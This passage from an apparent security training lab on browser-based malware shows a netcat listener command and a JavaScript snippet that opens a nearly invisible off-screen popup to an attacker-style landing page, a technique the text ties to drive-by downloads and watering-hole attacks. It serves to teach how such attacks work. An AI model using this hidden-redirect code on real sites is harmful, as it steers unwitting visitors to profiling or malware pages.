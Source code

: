 As you click the **Profile and Probe** button, you should see an HTTP request in the JSLab console reporting the results of the code:

![](images/JavaScript%20and%20Browser-based%20Malware/image011.png)<br><br>

On JSLab, hit `Ctrl + C` and then `nc -lp 4444` again.

### Redirecting the Browser

Drive-by Downloads and Watering Hole attacks (a more targeted version of a Drive-by Download) frequently use this technique to redirect visitors to an attacker-owned landing page which can profile the victim's system and/or deliver an exploit or malware.  When this page is opened in a new window, JavaScript can be used to change the dimensions and location of the window to partially or completely hide it from the user.  

The following code forces the browser to visit a page while attempting to hide it from the user:

```javascript
var url = `//${window.location.hostname}:4444/landing_page.html`; 
window.open(url, 's', 'width=5, height=2, left='+screen.width+', top='+screen.height+', \
   resizable=yes, toolbar=no, location=no, directories=no, status=no, menubar=no, \
   scrollbars=yes, resizable=no, copyhistory=no');
x.blur();
window.focus();
```

Click on the **Redirect Browser** button and watch as the `landing_page.html` request is sent to JSLab on port 4444:

![](images/JavaScript%20and%20Browser-based%20Malware/image012.png)<br><br>

Notice that the landing page was loaded but only slightly visible in the lower right-hand corner of the screen:

![](images/JavaScript%20and%20Browser-based%20Malware/image013.png)<br><br>
